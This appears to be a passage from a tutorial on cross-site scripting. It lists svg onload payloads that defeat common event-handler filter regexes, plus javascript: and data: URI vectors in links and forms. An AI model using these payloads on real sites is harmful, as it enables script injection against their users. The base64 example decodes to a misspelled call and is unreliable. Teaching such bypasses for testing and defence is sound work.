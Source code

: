 See complete reference at: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

**2.** Sometimes the events are filtered. This is a very common regex for filtering:

```
(on\w+\s*=)
```

Bypassing it:

```
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id='x'onload=alert(1)>
```

**3.** Bettering up the filter:

```
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

Bypassing it:

```
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>
<svg %09onload%09=alert(1)>
<svg onload%09%20%28%2c%3B=alert(1)>
<svg onload%0B=alert(1)>
```

![escaping onload](../img/onload.png)

[https://shazzer.co.uk/vectors](https://shazzer.co.uk/vectors) is a great resource to see potential attack vectors. 

![Tool for seeing attacking vectors](../img/tool-xss.png)

#### 1.4. Going beyond the `<script>`tag

```
<a href="javascript:alert(1)">click</a>
<a href="data:text/html;base64,amF2YXNjcmlwdDphbGVyKDEp">click</a>
<form action="javascript:alert(1)"><button>send</button></form>

<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
```

#### 1.5. Bypassing browser's limitations

 One such XSS payload is `<plaintext>`, which will stop rendering the HTML code that comes after it and display it as plaintext. 
 
 Another easy-to-spot payload is `<script>print()</script>` that will pop up the browser print dialog, which is unlikely to be blocked by any browsers. Try using these payloads to see how each works. You may use the reset button to remove any current payloads.
